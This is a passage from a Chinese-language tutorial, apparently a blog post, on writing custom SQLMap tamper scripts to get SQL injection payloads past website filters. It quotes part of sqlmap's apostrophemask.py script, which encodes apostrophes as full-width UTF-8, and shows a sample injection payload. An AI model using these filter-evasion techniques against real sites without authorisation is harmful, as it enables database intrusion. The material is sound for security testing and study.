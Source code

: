 成功。

## 编写tamper

当我们下载了SQLMap，解压后，我们可以找到文件夹【tamper】，该文件夹有很多个Tamper脚本帮助我们绕过一些安全防护：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180231.png)

网上有很多相关脚本的介绍，我就不一一介绍了。

虽然SQLMap提供了这么多的Tamper脚本，但是在实际使用的过程中，网站的安全防护并没有那么简单，可能过滤了许多敏感的字符以及相关的函数。这个时候就需要我们针对目标的防护体系构建相应的Tamper脚本。

Tamper相当于一个加工车间，它会把我们的Payload进行加工之后发往目标网站。

我们随便打开一个Tamper脚本看一下它的结构：

    
    
    #apostrophemask.py  
      
    #!/usr/bin/env python  
      
    """  
    Copyright (c) 2006-2021 sqlmap developers (http://sqlmap.org/)  
    See the file 'LICENSE' for copying permission  
    """  
    # 导入SQLMap中lib\core\enums中的PRIORITY优先级函数  
    from lib.core.enums import PRIORITY  
    # 定义脚本优先级  
    __priority__ = PRIORITY.LOWEST  
      
    # 对当前脚本的介绍  
    def dependencies():  
        pass  
      
    '''  
    对传进来的payload进行修改并返回  
    函数有两个参数。主要更改的是payload参数，kwargs参数用得不多。  
    '''  
    def tamper(payload, **kwargs):  
        """  
        Replaces apostrophe character (') with its UTF-8 full width counterpart (e.g. ' -> %EF%BC%87)  
      
        References:  
            * http://www.utf8-chartable.de/unicode-utf8-table.pl?start=65280&number=128  
            * https://web.archive.org/web/20130614183121/http://lukasz.pilorz.net/testy/unicode_conversion/  
            * https://web.archive.org/web/20131121094431/sla.ckers.org/forum/read.php?13,11562,11850  
            * https://web.archive.org/web/20070624194958/http://lukasz.pilorz.net/testy/full_width_utf/index.phps  
      
        >>> tamper("1 AND '1'='1")  
        '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'  
        """  
      